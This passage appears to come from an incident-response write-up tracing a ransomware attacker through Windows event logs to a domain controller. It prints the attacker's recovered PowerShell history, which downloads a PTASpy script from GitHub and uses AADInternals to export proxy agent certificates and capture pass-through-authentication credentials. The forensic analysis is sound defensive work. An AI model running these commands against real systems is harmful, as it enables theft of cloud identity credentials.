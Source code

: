 Unfortunately, we do not have *Prefetch* data in our triage image to judge on the execution of `SharpHound.exe`, hence, we have to relay on `Sysmon` and Windows Events. From the later we could not observe any execution. Thus, again a dead-end.

In our final iteration we weaken our filters again, and search for all events containing `Python312\python.exe`. We will be presented with 81 events. Filtering on the relevant days reduces the amount of data to 34 only! Theoretically, we could even filter out the `Sysmon` logs we already examined, however I decided to stack on the `Provider` instead to get a better feeling on the logs available. We have two *Application Error* logs, 20 *Audit Logs* and the actually already examined 12 *Sysmon* events.

We take a look at the `Microsoft-Windows-Security-Auditing` logs, which I would consider the most promising in our current situation. Beside the already identified process creation and network share access events, we spot two interesting new event categories, namely
- "A security-enabled local group membership was enumerated"
	- Timestamps: `2024-03-06 02:05:13`
	- Target: `Builtin\Administrators` (`S-1-5-32-544`)
- "Successful Logon"
	- Timestamps: `2024-03-06 02:09:19`
	- Logon Type: `9`
	- Target: `NT AUTHORITY\SYSTEM`
	- Authentication-Package-Name: `Negotiate`


The threat actor enumerated the local administrator account.


# Domain Dominance

Typically pattern observed in any chain of attack is that at some point of time the adversary obtains domain dominance. In the last section, we have seen that the threat actor was able to locally escalate its privileges on `CC-JMP-01` and thus had the opportunity to dump all on-disk and in-memory credentials from the `CC-JMP-01` host. By nature the jump host is used to jump to other local machines, e.g., the domain controller. Hence, it is assumable that the jump host has had domain administrative credentials in memory, which are now known to the attacker. Thus, let us check what (malicious) activity we can identify on the domain controller.

A first short look inside the `USN Journal` already indicates that the domain controller was hit by the ransomware as well. Again, we will find a lot of files with the `.kh1ftzx` extension.

So let us look inside the triage image next. Somehow strange, we do not observe any encrypted files in the users directory. The most directories look very clean. However, there is a little surprise: The `CC-Admin` user directory still holds an unencrypted `PowerShell` history file!

```Powershell
Install-Module AADInternals
Export-AADIntProxyAgentCertificates
Install-Module AADInternals
Import-Module AADinternals
Set-ExecutionPolicy -ExecutionPolicy $bypass
Set-ExecutionPolicy -ExecutionPolicy $unrestricted
Set-ExecutionPolicy -ExecutionPolicy unrestricted
Import-Module AADinternals
Export-AADIntProxyAgentCertificates
Export-AADIntProxyAgentBootstraps -Certificates .\CC-DC-01.waifu.phd_ec93321e-b580-48eb-8dbc-d4b682fa7b52_75ce5fbc-5cce-4eb4-b7b5-ba626f27c778_7B2305126FA2E4BB4E9A6EB52F23F1771D300022.pfx 
wget "https://raw.githubusercontent.com/Gerenios/public/master/PTASpy/Configure-PTASpy.ps1" -OutFile "Configure-PTASpy.ps1"
Install-AADIntPTASpy
type C:\PTASpy\PTASpy.csv
```
